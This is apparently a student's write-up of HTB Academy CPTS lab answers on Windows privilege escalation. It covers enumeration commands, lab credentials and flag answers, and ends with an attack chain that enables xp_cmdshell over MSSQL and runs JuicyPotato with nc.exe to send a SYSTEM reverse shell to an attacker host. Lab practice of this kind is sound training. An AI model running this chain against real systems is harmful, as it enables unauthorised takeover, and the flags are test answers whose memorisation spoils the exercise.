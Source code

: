 ```yaml
---
title: CPTS labs - 25 Windows Privilege Escalation
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - certification
  - CPTS
  - labs
---
```

# CPTS labs - 25 Windows Privilege Escalation

## Getting the Lay of the Land

**RDP to (ACADEMY-WINLPE-SRV01) with user "htb-student" and password "HTB_@cademy_stdnt!". What is the IP address of the other NIC attached to the target host?**

``` powershell
ipconfig /all
```

Results: 172.16.20.45

**What executable other than cmd.exe is blocked by AppLocker?**

We list the AppLocker Rules:

``` powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Results: powershell_ise.exe


**What non-default privilege does the htb-student user have?**

```powershell
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

Results: SeTakeOwnershipPrivilege

**Who is a member of the Backup Operators group?**

```powershell
net localgroup "Backup Operators"
```

Results: sarah


**What service is listening on port 8080 (service name not the executable)?**

```powershell
tasklist /svc
```

Results: Tomcat8


**What user is logged in to the target host?**

```powershell
query user
```

Results:  sccm_svc


**What type of session does this user have?**

```powershell
query user
```

Results:  console


**What service is listening on 0.0.0.0:21? (two words)**

```
tasklist /svc
```

Results: FileZilla Server

**Which account has WRITE_DAC privileges over the \pipe\SQLLocal\SQLEXPRESS01 named pipe?**

```
.\accesschk.exe -accepteula -w \pipe\SQLLocal\SQLEXPRESS01 -v
```

Results: NT SERVICE\MSSQL$SQLEXPRESS01


## Windows User Privileges

Authenticate to  with user "sql_dev" and password "Str0ng_P@ssw0rd!". Escalate privileges using one of the methods shown in this section. Submit the contents of the flag file located at c:\Users\Administrator\Desktop\SeImpersonate\flag.txt

```
# As I was not able to RDP using the sql_dev account. I connected with htb-student and ran cmd as sql_dev.
xfreerdp /v:10.129.43.43 /u:sql_dev /p:'Str0ng_P@ssw0rd!' /cert:ignore

# Another alternative:
mssqlclient.py sql_dev@10.129.43.43 -windows-auth
# Enter password: Str0ng_P@ssw0rd

# Enabling xp_cmdshell
enable_xp_cmdshell

# Checking Account Privileges
xp_cmdshell whoami /priv
```

As SeImpersonatePrivilege is listed, we may impersonate a privileged account such as NT AUTHORITY\SYSTEM.

To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. But this is already saved in the C:\Tools folder. So we will jump to the next step, start a Netcat listener on port 8443 from your attacking machine:

```
nc -lnvp 8443
```

Execute the command below where -l is the COM server listening port, -p is the program to launch (cmd.exe), -a is the argument passed to cmd.exe, and -t is the createprocess call. Below, we are telling the tool to try both the CreateProcessWithTokenW and CreateProcessAsUser functions, which need SeImpersonate or SeAssignPrimaryToken privileges respectively.

```
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.49 8443 -e cmd.exe" -t *
```

Cat the flag:

```
type c:\Users\Administrator\Desktop\SeImpersonate\flag.txt
```

Results: F3ar_th3_p0tato!


